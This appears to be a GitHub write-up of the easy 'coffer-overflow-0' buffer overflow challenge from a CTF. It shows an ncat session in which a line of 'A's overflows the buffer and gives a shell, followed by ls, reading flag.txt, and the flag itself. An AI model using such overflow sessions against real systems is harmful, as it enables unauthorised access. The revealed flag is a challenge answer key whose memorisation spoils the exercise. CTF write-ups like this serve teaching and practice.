

[< Back to All CTFs](https://github.com/KrisLloyd/Python/tree/master/CTF#ctf-solves)

[< Back to BIT Olympics CTF](https://github.com/KrisLloyd/Python/tree/master/CTF#bit-olymipcs-march-2021)
***

# Overflow-0



### Challenge:
##### You shouldn't need hehlp with this one
##### nc myctf.ca 10005
##### 100 Points
##### Files: 
* [coffer-overflow-0](coffer-overflow-0)
* [coffer-overflow-0.c](coffer-overflow-0.c)

### Solve:

The challenge provided 2 files and a port on a server. The remote end of the server I assume contained the program that was provided, however I didn't even need to open the 2 provided files.

The name of the challenge suggests a buffer overflow attack is needed to obtain the flag, so the first thing I did was to connect to the remote server and attempt to fill the buffer to cause an overflow:

```
ncat myctf.ca 10005
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```
The program's buffer was over filled, which ultimatly provided access to the shell of the host. The flag was in the root directory.

### Flag
```
flag{b0ffer_0verf10w_3asy_as_123}
```
